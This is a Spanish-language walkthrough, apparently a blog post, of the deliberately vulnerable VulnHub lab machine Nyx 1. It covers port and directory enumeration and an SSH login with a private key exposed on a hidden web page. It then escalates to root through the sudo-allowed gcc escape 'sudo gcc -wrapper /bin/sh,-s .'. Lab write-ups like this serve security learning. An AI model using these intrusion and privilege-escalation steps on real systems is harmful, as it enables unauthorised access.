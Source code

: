 ```yaml
---
title: VulnHub - Nyx 1
published: true
---
```


---

[nyx-1](@https://www.vulnhub.com/entry/nyx-1,535/)

## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
nmap 192.168.1.38
Starting Nmap 7.92
Nmap scan report for 192.168.1.38
Host is up (0.0012s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

* 22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
* 80/tcp open http Apache httpd 2.4.38 ((Debian))

El puerto 80 muestra la siguiente web:

![](https://eidd3.github.io/assets/img/Nyx1/Untitled.png)

Empiezo enumerando la web con Gobuster.

```bash
gobuster dir -u http://192.168.1.38/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://192.168.1.38/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/11 20:23:48 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
                                               
===============================================================
Finished
===============================================================
```

No reporta nada interesante, por lo que sigo enumerando con el script http.enum de nmap.

```bash
nmap --script http-enum -p 80 192.168.1.38
Nmap scan report for 192.168.1.38
Host is up (0.00067s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /d41d8cd98f00b204e9800998ecf8427e.php: Seagate BlackArmorNAS 110/220/440 Administrator Password Reset Vulnerability
```

![](https://eidd3.github.io/assets/img/Nyx1/Untitled1.png)

La ruta muestra una clave de SSH que parece ser de mpampis por el título de la página. La guardo como id_rsa y dándole permisos a esta clave privada me puedo conectar como mpampis al servicio ssh sin la contraseña del usuario.

```bash
❯ ls -l
.rw------- eddie eddie 1.8 KB Sat Feb 11 20:42:11 2023  id_rsa
❯ ssh -i id_rsa mpampis@192.168.1.38
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
███   ███ ███▄▄▄███    ███  ▐███    
███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
███   ███ ▄██   ███    ████▀██▄     
███   ███ ███   ███   ▐███  ▀███    
███   ███ ███   ███  ▄███     ███▄  
 ▀█   █▀   ▀█████▀  ████       ███▄ 
Last login: Sat Feb 11 17:50:00 2023 from 192.168.1.24
mpampis@nyx:~$ whoami
mpampis
mpampis@nyx:~$
```

## Elevando Privilegios

Con sudo -l listo los comandos permitidos para el usuario.

```bash
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
```

Se puede ejecutar como root gcc, con una búsqueda del binario en https://gtfobins.github.io/ nos da un comando para obtener una shell.

![](https://eidd3.github.io/assets/img/Nyx1/Untitled2.png)

```bash
mpampis@nyx:~$ whoami
mpampis
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# hostname
nyx
#
```
